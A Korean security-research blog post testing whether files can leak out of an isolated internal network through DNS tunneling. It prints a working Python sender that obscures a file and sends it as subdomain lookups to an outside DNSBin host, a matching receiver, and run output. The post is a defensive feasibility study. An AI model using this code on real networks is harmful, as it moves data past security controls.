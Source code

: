 ```yaml
---
layout: post
title:  "DNS Tunneling을 통한 정보 유출"
author: "qbeom"
comments: true
tags: [research, network]
---
```


라온화이트햇 핵심연구팀 최규범


- **목차**

    ---

    ---

### 개요

인터넷 접속이 안되는 내부망 환경에서, 다양한 보안 솔루션이 설치되었어도,
과연, 정보 유출의 위협으로 부터 안전할까요?

DNS Tunneling 기법을 활용하여 위와 같은 환경에서 정보 유출이 가능한지 테스트해보았습니다.

### DNS Tunneling

DNS 프로토콜을 사용하여 임의 데이터를 송수신하는 기술을 DNS Tunneling이라고 합니다.

실제로 많은 악성코드가 원격 명령지 서버와 통신할 때 DNS Tunneling을 악용하고 있습니다.

![/assets/55daf833-d832-4e6a-8182-f78cb29bbda9/0b681e3d-c7f7-468a-94b5-a69801ddf46b.png](/assets/55daf833-d832-4e6a-8182-f78cb29bbda9/0b681e3d-c7f7-468a-94b5-a69801ddf46b.png)

그 이유는 내부망 환경 또는 특정 Outbound 포트만 허용되는 환경에서도, DNS 트래픽 송신이 허용되는 경우가 빈번하기 때문입니다.

![/assets/8d3b6cad-8833-4398-9c11-2499aa7ba03b/fa591cf7-266f-40c6-b901-d813de4ecb95.png](/assets/8d3b6cad-8833-4398-9c11-2499aa7ba03b/fa591cf7-266f-40c6-b901-d813de4ecb95.png)

공격자가 설치한 임의 DNS 서버의 특정 서브 도메인을 조회합니다.
해당 DNS 패킷에서 서브 도메인 정보('leakeddata')만 구별하여 정보를 획득할 수 있습니다.

### 유출 테스트

DNS Tunneling 구현을 위해서는 DNS 서버 구축이 필요합니다.

- Python을 사용하여 DNS Tunneling 구현

       [https://github.com/ialexryan/Burrow-Server](https://github.com/ialexryan/Burrow-Server)

Python을 사용하여 구축할 수 있는 Github 페이지를 확인하였으나, 여러 추가 작업이 필요합니다.

![/assets/ca576997-b4d8-4c2d-8a2f-3f069cbeb5fc/924c39e7-e437-4cfe-9ed2-fa852a6f5294.png](/assets/ca576997-b4d8-4c2d-8a2f-3f069cbeb5fc/924c39e7-e437-4cfe-9ed2-fa852a6f5294.png)

쉬운 방법을 찾던 중, CTF에서도 활용되는 DNSBin(http://dnsbin.zhack.ca/) 페이지를 발견했습니다.

![/assets/a4c1412c-c001-475b-b52f-c8cd7303d8a2/82361422-e8d7-49d1-b0f7-5151fa0faa9d.png](/assets/a4c1412c-c001-475b-b52f-c8cd7303d8a2/82361422-e8d7-49d1-b0f7-5151fa0faa9d.png)

![/assets/05830fe9-e5d6-4dc1-b41b-ca518de63374/4b25fd46-25c7-40b6-90a5-a10cfc883d74.png](/assets/05830fe9-e5d6-4dc1-b41b-ca518de63374/4b25fd46-25c7-40b6-90a5-a10cfc883d74.png)

식별 가능한 특정 서브 도메인이 주어지고, 해당 도메인 앞에 임의 데이터를 붙여서 보내면
서버에서 데이터를 가져옵니다.

도메인 이름 규칙 상 대소문자 구분이 없지만, 해당 사이트에서는 이를 구분하여 보여줍니다.

### 테스트 코드(송신)

아래 내용을 통해 송신 테스트 코드를 작성하였습니다.

- 도메인 이름 규칙 상 허용되는 63개 문자 중, 하이픈(-)을 제외한 62개 문자로 구성
- Raw Data를 보내기 위해서 인코딩이 필요하므로, 간단히 쓸 수 있는 Base32를 사용
(Base62를 사용하고 싶으나, 정수형으로 인자를 받기 때문에 복잡하였습니다.)
- Dnsbin에서 중복 데이터를 표시하지 않으므로, 중복을 피하기 위해 간단한 암호화 필요
- 도메인은 최대 253 글자, 라벨은 63글자로 구성되므로 알맞게  잘라서 송신

```python
import socket
import random
import time
import base64

def rand_bytes(count):
    return bytearray(random.getrandbits(8) for _ in range(count))

f = open("./test.dat", "rb")
data = f.read()
f.close()

size = len(data)
print("Data Size(Org) : ", size)

seed = random.randint(0,100000)
random.seed(seed)

enc = bytearray(data)
rnd = rand_bytes(size)
for i in range(size):
    enc[i] = data[i] ^ rnd[i]

enc = base64.b32encode(enc)
enc = enc.replace(b"=", b"0") # Change pad
size_enc = len(enc)
print("Data Size(Enc) : ", size_enc)

base_domain = '.9b14918384f099f6b54a.d.zhack.ca'
remain = 253 - len(base_domain) # Max Length 253
remain -= int(remain/63) # "."
t_start = time.time()

send_data = "S-%d.O-%d.E-%d" % (seed, size, size_enc) #Send seed, size of data
socket.gethostbyname(send_data + base_domain)

for i in range(0, size_enc, remain):
    enc_part = enc[i:i+remain]
    if len(enc_part) > 63:
        send_data = ""
        for j in range(0, remain, 63):
            if j != 0:
                send_data += "."
            send_data += enc_part[j:j+63].decode('utf-8')
    else:
        send_data = enc_part.decode('utf-8')

    socket.gethostbyname(send_data + base_domain)

t = time.time() - t_start
print("Elapsed Time : ", t, "Secs")
print("Speed(Org) : ", size / t, "B/sec") 
print("Speed(Enc) : ", size_enc / t, "B/sec")
```

```python
Data Size(Org) :  21822
Data Size(Enc) :  34920
Elapsed Time :  37.387837171554565 Secs
Speed(Org) :  583.6657493684237 B/sec
Speed(Enc) :  933.9935829871392 B/sec
>>>
```

21.3KB의 파일을 테스트하였고, 약 0.5KB/s 속도로 전송되었습니다.

결과는 네트워크 환경에 따라 다를 수 있다.

### 테스트 코드(수신)

![/assets/21cacb46-3992-4c22-a4da-da78bb38ed70/8f4736de-b36e-44bf-abad-0cd87c3445d4.png](/assets/21cacb46-3992-4c22-a4da-da78bb38ed70/8f4736de-b36e-44bf-abad-0cd87c3445d4.png)

DNS를 요청하는 과정에서 중복된 값이 전송될 수 있습니다. 

이를 처리해주고 초기에 전송한 Seed를 통해 복호화하는 코드를 작성하였습니다.

```python
import random
import base64

def rand_bytes(count):
    return bytearray(random.getrandbits(8) for _ in range(count))

f = open("./result.dat", "rb")
data = f.read()
f.close()

data = data.split(b"\r\n")
info = data[0].split(b".")

seed, size, size_enc = int(info[0][2:]), int(info[1][2:]), int(info[2][2:])
print("Seed : ", seed)
print("Data Size(Org) : ", size)
print("Data Size(Enc) : ", size_enc)

random.seed(seed)
rnd = rand_bytes(size)

enc = b""
for i in range(1,len(data)):
    if data[i] == data[i-1]:
        continue
    enc += data[i]
enc = enc.replace(b".", b"")
enc = enc.replace(b"0", b"=")
dec = base64.b32decode(enc)

print("Data Size(Enc-Recv) : ", len(enc))
print("Data Size(Dec-Recv) : ", len(dec))

dec = bytearray(dec)
for i in range(size):
    dec[i] ^= rnd[i]

f = open("./test.dat", "rb")
org = f.read()
f.close()
print("Compare Result :", org == dec)
```

```python
Seed :  70953
Data Size(Org) :  21822
Data Size(Enc) :  34920
Data Size(Enc-Recv) :  34920
Data Size(Dec-Recv) :  21822
Compare Result : True
>>>
```

결과 파일(result.dat)은 Dnsbin에서 출력된 텍스트를 저장한 파일입니다.

전송된 데이터가 정상적으로 복호화된 것을 확인할 수 있습니다.

### 참조

- 도메인 이름 규칙([https://www.joinc.co.kr/w/man/12/DNS](https://www.joinc.co.kr/w/man/12/DNS))